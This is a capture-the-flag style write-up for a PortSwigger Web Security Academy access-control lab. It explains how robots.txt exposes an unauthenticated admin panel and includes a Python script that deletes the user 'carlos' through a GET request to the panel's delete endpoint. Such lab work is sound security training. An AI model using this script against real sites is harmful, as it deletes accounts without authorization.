 ```yaml
---
title: Unprotected admin functionality
tags:
  - web-app
  - access
  - control
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality/">
1. Unprotected admin functionality</a>

We're asked to delete the user "carlos" from the website using a known
vulnerability where the /administrator-panel endpoint is unprotected - no
authentication is required. We discover that the /administrator-panel endpoint
exists because we visited the /robots.txt file.

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --d carlos

from argparse import ArgumentParser

import requests


def solve(url: str, delete: str) -> None:
    r = requests.get(f"{url.rstrip('/')}/administrator-panel/delete?username={delete}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--d", "--delete", dest="delete")
    args = parser.parse_args()
    solve(args.url, args.delete)


if __name__ == "__main__":
    main()
```
